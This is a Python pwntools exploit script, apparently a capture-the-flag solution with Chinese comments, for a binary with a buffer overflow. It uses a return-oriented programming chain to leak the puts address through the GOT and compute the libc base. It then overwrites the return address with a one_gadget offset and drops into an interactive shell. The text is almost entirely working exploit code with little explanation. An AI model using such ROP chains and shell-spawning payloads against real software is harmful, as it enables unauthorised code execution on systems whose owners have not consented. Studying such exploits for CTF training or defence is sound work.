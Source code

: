 ```python
payload = 'A'*0x8+p64(0x6010D4)
p.sendlineafter('choice:','1')
p.sendafter('name:',p32(0xf000050))
p.sendlineafter('choice:','2')
p.sendafter('message:',payload)
p.sendlineafter('choice:','2')
payload_2 = 'A'*0x8
payload_2 += p64(0x6010D4)


payload_2 += p64(rdi_ret) # rip -> gadget地址
payload_2 += p64(puts_got) #pop rdi -> 泄露puts地址 = libc基址+库内偏移
payload_2 += p64(puts_plt) #ret->pop rip ->into puts
payload_2 += p64(main_addr) #puts返回 -> final pos
p.sendafter('message:',payload_2)

puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
libc_base = puts_addr- libc.sym['puts']#计算libc基址


system_addr = libc_base + libc.sym['system']#system函数地址
binsh_addr = libc_base + libc.search('/bin/sh').next()#字符串地址
log.info('libc_base:'+hex(libc_base))
log.info('system_base:'+hex(system_addr))
log.info('binsh_base:'+hex(binsh_addr))

#第二次rop 劫持流程
payload = 'A'*0x8+p64(0x6010D4)
p.sendlineafter('choice:','1')
p.sendafter('name:',p32(0xf000050))
p.sendlineafter('choice:','2')
p.sendafter('message:',payload)
p.sendlineafter('choice:','2')


#pause()
payload = 'A' * 0x8
payload += p64(0x6010D4)
payload += p64(libc_base+0x4f365)
p.sendafter('message:',payload)

p.interactive()

```



